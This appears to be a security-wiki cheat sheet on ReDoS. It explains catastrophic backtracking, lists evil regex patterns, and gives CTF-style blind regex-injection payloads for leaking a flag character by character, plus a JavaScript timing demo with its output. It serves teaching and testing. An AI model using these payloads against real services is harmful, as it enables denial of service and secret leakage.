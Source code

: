 # Regular expression Denial of Service - ReDoS


# Regular Expression Denial of Service (ReDoS)

A **Regular Expression Denial of Service (ReDoS)** happens when someone takes advantage of weaknesses in how regular expressions (a way to search and match patterns in text) work. Sometimes, when regular expressions are used, they can become very slow, especially if the piece of text they're working with gets larger. This slowness can get so bad that it grows really fast with even small increases in the text size. Attackers can use this problem to make a program that uses regular expressions stop working properly for a long time.

## The Problematic Regex Naïve Algorithm

**Check the details in [[https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS|https://owasp.org/www-community/attacks/Regular*expression_Denial_of_Service*-\_ReDoS]]**

## Evil Regexes 

An evil regular expression pattern is that one that can **get stuck on crafted input causing a DoS**. Evil regex patterns typically contain grouping with repetition and repetition or alternation with overlapping inside the repeated group. Some examples of evil patterns include:

- (a+)+
- ([a-zA-Z]+)\*
- (a|aa)+
- (a|a?)+
- (.\*a){x} for x > 10

All those are vulnerable to the input `aaaaaaaaaaaaaaaaaaaaaaaa!`.

## ReDoS Payloads

### String Exfiltration via ReDoS

In a CTF (or bug bounty) maybe you **control the Regex a sensitive information (the flag) is matched with**. Then, if might be useful to make the **page freeze (timeout or longer processing time)** if the a **Regex matched** and **not if it didn't**. This way you will be able to **exfiltrate** the string **char by char**:

- In [[https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets|**this post**]] you can find this ReDoS rule: `^(?=<flag>)((.*)*)*salt$`
  - Example: `^(?=HTB{sOmE_fl§N§)((.*)*)*salt$`
- In [[https://github.com/jorgectf/Created-CTF-Challenges/blob/main/challenges/TacoMaker%20%40%20DEKRA%20CTF%202022/solver/solver.html|**this writeup**]] you can find this one:`<flag>(((((((.*)*)*)*)*)*)*)!`
- In [[https://ctftime.org/writeup/25869|**this writeup**]] he used: `^(?=${flag_prefix}).*.*.*.*.*.*.*.*!!!!$`

### ReDoS Controlling Input and Regex

The following are **ReDoS** examples where you **control** both the **input** and the **regex**:

```javascript
function check_time_regexp(regexp, text) {
  var t0 = new Date().getTime()
  new RegExp(regexp).test(text)
  var t1 = new Date().getTime()
  console.log("Regexp " + regexp + " took " + (t1 - t0) + " milliseconds.")
}

// This payloads work because the input has several "a"s
;[
  //  "((a+)+)+$",  //Eternal,
  //  "(a?){100}$", //Eternal
  "(a|a?)+$",
  "(\\w*)+$", //Generic
  "(a*)+$",
  "(.*a){100}$",
  "([a-zA-Z]+)*$", //Generic
  "(a+)*$",
].forEach((regexp) => check_time_regexp(regexp, "aaaaaaaaaaaaaaaaaaaaaaaaaa!"))

/*
Regexp (a|a?)+$ took 5076 milliseconds.
Regexp (\w*)+$ took 3198 milliseconds.
Regexp (a*)+$ took 3281 milliseconds.
Regexp (.*a){100}$ took 1436 milliseconds.
Regexp ([a-zA-Z]+)*$ took 773 milliseconds.
Regexp (a+)*$ took 723 milliseconds.
*/
```
```
## Tools

- [[https://github.com/doyensec/regexploit|https://github.com/doyensec/regexploit]]
- [[https://devina.io/redos-checker|https://devina.io/redos-checker]]

## References

- [[https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS|https://owasp.org/www-community/attacks/Regular*expression_Denial_of_Service*-\_ReDoS]]
- [[https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets|https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets]]
- [[https://github.com/jorgectf/Created-CTF-Challenges/blob/main/challenges/TacoMaker%20%40%20DEKRA%20CTF%202022/solver/solver.html|https://github.com/jorgectf/Created-CTF-Challenges/blob/main/challenges/TacoMaker%20%40%20DEKRA%20CTF%202022/solver/solver.html]]
- [[https://ctftime.org/writeup/25869|https://ctftime.org/writeup/25869]]



